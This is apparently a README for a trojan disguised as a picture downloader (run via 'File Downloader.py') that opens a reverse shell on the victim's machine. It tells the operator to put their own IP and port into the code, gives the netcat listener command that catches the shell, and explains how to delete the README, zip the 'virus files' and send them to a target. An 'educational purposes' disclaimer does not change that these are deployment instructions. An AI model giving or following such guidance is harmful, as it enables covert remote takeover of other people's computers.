 This is a bit of a complicated malware so some modifications need to be made.
========================================================================

The modifications are:

1. Set the value of the errorserver variable in the ErrorHandler64 to your IP address, which you can find by googling "what is my IP address?".

2. Set the value of the errorid to any number under 1000. we recommend 80 or 443. Remember this number.

After you are done with these steps, you have to do one more step:
You must have a linux server running this command during the execution of the virus code:
stty raw -echo; (stty size; cat) | nc -lvnp $port
replace $port in this command with the number you chose earlier.

Don't have a linux server? no problem. You can open one for free by:
1. open microsoft store
2. Search for kali linux
3. Download it
4. Open it
5. Follow the on screen instructions
6. Type sudo apt update
7. sudo apt upgrade -y
8. Done!

=======================================================================================================

Before sending the virus:
1. remove this file
2. zip the two virus files
3. send the zip folder

=====================================

How to run the malware:
WARNING! It is strictly advised to not run the malware for your own safety.
We are not responsible for any damage caused by running of the malware.
The malware has been developed purely for educational purposes.

====================

Instructions:
1. Run File Downloader.py

==============================

What the malware does:
The malware acts as a downloader of pictures, and then establishes a reverse shell with the target computer, giving you full access to their shell.
